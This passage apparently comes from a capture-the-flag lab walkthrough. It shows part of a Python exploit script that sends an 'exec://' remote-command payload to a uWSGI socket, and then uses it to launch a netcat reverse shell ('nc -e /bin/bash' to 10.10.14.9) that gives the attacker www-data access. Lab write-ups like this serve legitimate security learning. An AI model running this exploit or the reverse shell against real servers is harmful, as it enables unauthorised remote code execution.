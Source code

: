 ```python
    
    parser = argparse.ArgumentParser(description=desc, epilog=elog)

    parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                        help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                        dest='mode', choices=['http', 'tcp', 'unix'])

    parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                        help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                        dest='uwsgi_addr')

    parser.add_argument('-c', '--command', nargs='?', required=True,
                        help='Command: The exploit command you want to execute, must have this.',
                        dest='command')

    if len(sys.argv) < 2:
        parser.print_help()
        return
    args = parser.parse_args()
    if args.mode.lower() == "http":
        print("[-]Currently only tcp/unix method is supported in RCE exploit.")
        return
    payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
    print("[*]Sending payload.")
    print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

if __name__ == '__main__':
    main()
```

And Copied the new edited script in the same way and this time I uploaded `nc` to the docker too.

```bash
qtc@aeb4525789d8:/tmp$ python exploit.py -m unix -u /tmp/uwsgi.socket -c '/tmp/nc -e /bin/bash 10.10.14.9 8080'
[*]Sending payload.
```

Im now `www-data`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2029.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-oouch/Untitled%2029.png)
